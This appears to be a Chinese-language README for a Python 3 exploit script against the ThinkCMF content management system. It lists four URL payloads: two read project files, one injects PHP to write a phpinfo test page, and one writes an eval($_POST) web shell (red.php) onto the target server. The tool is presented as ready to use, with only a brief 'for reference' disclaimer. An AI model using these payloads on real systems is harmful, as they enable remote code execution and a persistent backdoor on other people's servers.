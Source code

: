 # 一个简单python3的thinkcmf-exp
探测以下4个payload:


```url
?a=display&templateFile=README.md
```



```url
?a=display&templateFile=config.yaml
```



```url
?a=fetch&templateFile=public/index&prefix=''&content=<php>file_put_contents('test.php','<?php phpinfo();?>')</php>
```



```url
?a=fetch&templateFile=public/index&prefix=''&content=<php>file_put_contents('red.php','<?php eval($_POST["red"]);?>')</php>
```


此脚本只用了requests和argparse库完成,因此可以即下即用.

该脚本具有一定误差,请谨慎使用,仅供参考!

详见:[zjun's blog](http://www.zjun.info/2020/02/10/thinkcmfexp/)